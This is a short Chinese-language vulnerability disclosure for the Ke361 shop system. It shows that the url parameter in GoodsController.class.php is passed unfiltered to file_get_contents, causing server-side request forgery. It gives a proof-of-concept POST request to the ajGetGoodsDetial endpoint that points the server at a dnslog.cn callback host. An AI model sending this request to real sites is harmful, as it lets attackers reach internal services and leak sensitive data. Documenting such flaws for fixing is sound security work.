 # 

# Ke361 GoodsController.class.php SSRF漏洞

## 漏洞描述

Ke361 GoodsController.class.php URL参数存在 SSRF漏洞，通过漏洞可以获取敏感信息

## 漏洞影响

```
Ke361
```

## 环境搭建

https://gitee.com/jcove/ke361

## 漏洞复现

存在漏洞的文件为 `Application/Home/Controller/GoodsController.class.php`

![image-20220518153445715](./images/202205181534788.png)

URL参数无任何过滤，传入 file_get_contents函数，造成SSRF漏洞，构造请求

```
POST /index.php?s=/Goods/ajGetGoodsDetial
 
url=http://6si2gt.dnslog.cn
```

![image-20220518153459466](./images/202205181534535.png)

dnslog接收到请求

![image-20220518153527567](./images/202205181535619.png)
